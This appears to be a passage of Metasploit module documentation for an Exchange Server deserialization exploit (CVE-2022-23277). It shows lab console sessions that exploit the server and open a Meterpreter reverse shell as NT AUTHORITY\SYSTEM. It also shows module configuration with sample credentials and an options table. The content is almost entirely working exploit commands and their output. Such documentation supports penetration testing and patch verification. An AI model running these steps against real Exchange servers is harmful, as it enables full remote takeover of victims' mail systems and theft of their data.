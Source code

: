 ```
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is an Exchange Server!
[+] The target appears to be vulnerable. Exchange Server 15.1.2375.18 is vulnerable to CVE-2022-23277
[*] Getting the user's inbox folder's ID and ChangeKey ID...
[+] ChangeKey value for Inbox folder is AQAAABYAAAD9j/m9iNuTRpA5mrD5EV0AAAB3/PSE
[+] ID value for Inbox folder is AQMkADU1ADBhYjYzMi02MTQ3LTRlOTEtYjU1ADAtN2M0ZDBhYjYzODVlAC4AAAMhko4gUQEoR6mlLklj/zwrAQD9j/m9iNuTRpA5mrD5EV0AAAMBDAAAAA==
[*] Deleting the user configuration object associated with Inbox folder...
[+] Successfully deleted the user configuration object associated with the Inbox folder!
[*] Creating the malicious user configuration object on the Inbox folder!
[+] Successfully created the malicious user configuration object and associated with the Inbox folder!
[*] Attempting to deserialize the user configuration object using a GetClientAccessToken request...
[*] Sending stage (175686 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:59440) at 2022-08-16 15:47:55 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter >
```

### Exchange Server 2019 CU11 Jan22SU (Build 15.2.986.15) on Windows Server 2019 x64 (CVE-2022-23277)

```
msf6 > use exploit/windows/http/exchange_chainedserializationbinder_rce 
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set RHOSTS 192.168.159.11
RHOSTS => 192.168.159.11
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpUsername aliddle
HttpUsername => aliddle
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpPassword Password1!
HttpPassword => Password1!
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set DOMAIN MSFLAB.LOCAL
DOMAIN => MSFLAB.LOCAL
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > show options 

Module options (exploit/windows/http/exchange_chainedserializationbinder_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  Password1!       yes       The password to use to authenticate to the Exchange server
   HttpUsername  aliddle          yes       The username to log into the Exchange server as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.11   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b